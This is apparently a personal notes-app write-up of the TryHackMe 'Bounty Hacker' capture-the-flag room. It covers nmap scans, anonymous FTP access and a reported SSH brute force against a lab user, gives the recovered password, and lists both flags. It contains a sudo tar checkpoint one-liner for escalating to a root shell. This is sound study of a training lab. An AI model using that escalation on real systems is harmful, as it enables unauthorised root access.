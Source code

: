 ```yaml
---
creation date: July 16th 2023
last modified date: July 16th 2023
aliases: []
tags: #🎌
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🎌  

# [[THM - Bounty Hacker]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- [[FTP]]

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.0.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80
- Webpage contained lore about the box but nothing else

## Port 21
- FTP server that allowed anonymous login.
	- Signing into it through that showed two text files
		- *locks.txt*
			- Possible password list
		- *task.txt*
			- More lore and contained a name of a possible *user: lin* 


---

# Exploitation
## Brute Force SSH
- Used the password list we found on the FTP server against the user lin and found the following
	- User: *lin*
	- Password: *RedDr4gonSynd1cat3*


---

# Lateral Movement to user
## Local Enumeration
- Located user.txt in the home of user *lin* via SSH

## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration
- `sudo -l` for user *lin* has access to run [[tar]]
	- GTFObins contained the following for how to escalate the user. 

## Privilege Escalation vector
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

---

# Trophy & Loot

user.txt = *THM{CR1M3_SyNd1C4T3}*
root.txt = *THM{80UN7Y_h4cK3r}*

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 16th 2023 (08:55 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
